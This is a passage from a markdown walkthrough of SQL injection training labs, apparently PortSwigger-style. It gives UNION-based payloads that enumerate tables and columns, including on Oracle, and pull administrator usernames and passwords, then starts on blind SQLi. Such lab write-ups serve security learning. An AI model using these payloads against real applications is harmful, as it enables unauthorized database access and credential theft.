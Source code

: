 ![](https://i.ibb.co/ZTYBLy3/Pasted-image-20210521035658.png)

> **now we need to retrieve the Columns and we will use this Payload:`'+UNION+SELECT+column_name,'xdev05'+FROM+information_schema.columns--`**

![](https://i.ibb.co/b1spdFg/Pasted-image-20210521034742.png)

*there is 3 delicious columns with names:`rolename,user_name,username_hoorec,rolepassword,password_xxnicv`*

![](https://i.ibb.co/3NHWcK9/Pasted-image-20210521040403.png)

![](https://i.ibb.co/5hZk2Qz/Pasted-image-20210521040002.png)

* **now, let's get administrator Credentials.**

> **Final Payload: `'+UNION+SELECT+username_hoorec,password_xxnicv+FROM+users_sjindk--`**

![](https://i.ibb.co/F6xVZ6V/Pasted-image-20210521040531.png)

#### Lab D: SQL injection attack, listing the database contents on Oracle.

> **Note: On Oracle databases, every `SELECT` statement must specify a table to select `FROM`. If your `UNION SELECT` attack does not query from a table, you will still need to include the `FROM` keyword followed by a valid table name.**
> **On Oracle databases, every `SELECT` statement must specify a table to select `FROM`. If your `UNION SELECT` attack does not query from a table, you will still need to include the `FROM` keyword followed by a valid table name.**


* **use this Payload `'+UNION+SELECT+NULL,NULL+FROM+dual--` to confirm that ther is 2 columns here.**

> **use this payload to get all tables: `'+UNION+SELECT+table_name,NULL+FROM+all_tables--`**
*there is a delicious table_name called `USERS_TQXGJR`*

![](https://i.ibb.co/bLdSm7d/Pasted-image-20210521041858.png)

> **use this payload to get all columns:`'+UNION+SELECT+column_name,NULL+FROM+all_tab_columns--`**

*there is 2 delicious columns and they're called `PASSWORD_HKVEHH,USERNAME_XBRQYK`*

![](https://i.ibb.co/Gsxb2Dy/Pasted-image-20210521042316.png)

![](https://i.ibb.co/0shPNDW/Pasted-image-20210521042355.png)

> **Final Payload: `'+UNION+SELECT+USERNAME_XBRQYK,PASSWORD_HKVEHH+FROM+USERS_TQXGJR--`**

![](https://i.ibb.co/9WyXngC/Pasted-image-20210521042718.png)

### Lab 5: Blind SQLI Attacks.

> **What is blind SQLI? `Blind SQL injection arises when an application is vulnerable to SQL injection, but its HTTP responses do not contain the results of the relevant SQL query or the details of any database errors.`**
